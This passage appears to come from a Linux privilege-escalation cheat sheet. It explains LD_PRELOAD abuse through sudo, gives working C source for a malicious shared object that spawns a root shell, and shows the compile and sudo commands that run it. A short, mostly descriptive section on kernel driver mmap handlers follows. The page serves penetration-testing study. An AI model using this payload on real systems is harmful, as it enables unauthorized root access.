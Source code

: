 #### LD_PRELOAD

**LD_PRELOAD** is an optional environmental variable containing one or more paths to shared libraries, or shared objects, that the loader will load before any other shared library including the C runtime library (libc.so) This is called preloading a library.

If output of a sudo -l shows +LD_PRELOAD on an entries, you can take advantage of it.

create the following payload

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("/bin/bash");
}
```

Compile it, put it an a writtable directory and launch it with nano

```bash
gcc -fPIC -shared -o evil.so evil.c -nostartfiles
sudo LD_PRELOAD=evil.so nano
```

For more information about that technique refer to [T1574 - Hijack Execution Flow: LD_PRELOAD](https://attack.mitre.org/techniques/T1574/006/)

### Linux kernel drivers

During implementation of Linux kernel drivers, the developer might register a device driver file which will usually be registered in the /dev/ directory.
Operations supported by the device driver file are described in the ‘file_operations’ structure which contains a number of function pointers, one for each operation.

dmesg 2>/dev/null | grep "signature"

module verification failed: signature and/or required key missing - tainting kernel

 mmap handler

The main purpose of an mmap handler is to speed up data exchange between userland programs and kernel space.

The kernel might **share a kernel buffer** or some physical range of memory directly with the **user address space**. The user space process may modify this memory directly without the need for making additional
syscalls.

![Virtual Memory](VirtualMemoryLinux.gif)

source: <https://developer.ibm.com/technologies/linux/articles/l-kernel-memory-access/>
